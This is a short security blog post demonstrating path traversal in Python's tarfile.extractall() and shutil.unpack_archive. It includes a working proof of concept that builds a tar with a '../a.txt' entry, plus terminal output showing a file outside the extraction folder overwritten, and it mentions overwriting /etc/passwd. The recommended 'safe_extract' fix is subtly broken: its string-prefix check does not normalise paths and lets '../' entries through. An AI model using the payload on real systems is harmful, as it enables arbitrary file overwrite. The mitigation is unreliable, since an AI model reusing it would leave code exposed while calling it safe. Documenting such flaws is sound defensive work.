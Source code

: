 ```yaml
---
layout: post
title: Vulnerability with function tarfile.extractall()
date: 2024-10-28
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

During learning about CodeQL, I found function `tarfile.extractall()` perform extract file tar. However, when i research further about this function, i found vulnerability arbitrary write file in the system. 

Example: File poc.tar have 1 file name `../../../etc/passwd` when perform extract file poc.tar then file /etc/passwd in the system able overwrite if user use root permission. 

# POC

To prove this vulnerability, i will write poc with python perform extract file and overwrite 1 file a.txt with content "hacked!!!". I will create a file a.txt in the folder ahihi/a.txt. 

```
mkdir ahihi
echo "file a.txt" > ahihi/a.txt
ubuntu@ip-172-31-22-90:$ cat ahihi/a.txt 
file a.txt
```

Create file poc.tar include file name `../a.txt` 

```
import os
import tarfile

# Create a file name with '../a.txt'
with tarfile.open('poc.tar', 'w') as tar:
    # create temporary file
    with open('evil_file.txt', 'w') as f:
        f.write('hacked!!!')

    # add file `../a.txt` in to tar file
    tar.add('evil_file.txt', arcname='../a.txt')
```

Now, i have a file poc.tar, so i will process code python perform extract file poc.tar and check content file a.txt in the ahihi folder.

```
import os
import tarfile

extract_dir = '.'
os.makedirs(extract_dir, exist_ok=True)

print(f"Before extraction, does 'a.txt' exist? {'a.txt' in os.listdir('..')}")

with tarfile.open('poc.tar', 'r') as tar:
    tar.extractall(path=extract_dir)

print(f"After extraction, was 'a.txt' overwritten? {'a.txt' in os.listdir('..')}")
```

Run file poc.py

```
ubuntu@ip-172-31-22-90:ahihi/poc$ python3 poc.py 
Before extraction, does 'a.txt' exist? True
After extraction, was 'a.txt' overwritten? True
```

I will check file ahihi/a.txt content:

```
ubuntu@ip-172-31-22-90:ahihi/poc$ cat ../a.txt 
hacked!!!
```

well, done!!!

Recommend: When use function `tarfile.extractall()` to extract tar file, you should use a safe function: 

```
import os
import tarfile

def safe_extract(tar, path=".", members=None):
    for member in tar.getmembers():
        member_path = os.path.join(path, member.name)
        if not os.path.commonprefix([path, member_path]) == path:
            raise Exception("Attempted Path Traversal in Tar File")
    tar.extractall(path, members=members)

# use safe_extract instead extractall
with tarfile.open(filename) as tar:
    safe_extract(tar, extract_dir)
```

# Library shutil in the Python

Library shutil also use function `tarfile.extractall()` to extract file tar. I will use function `shutil.unpack_archive` to exploit. 

```
import os
import shutil

extract_dir = '.'
os.makedirs(extract_dir, exist_ok=True)

# Use shutil.unpack_archive to extract file
shutil.unpack_archive('malicious.tar', extract_dir)

print(f"After extraction, was 'a.txt' overwritten? {'a.txt' in os.listdir('..')}")
```

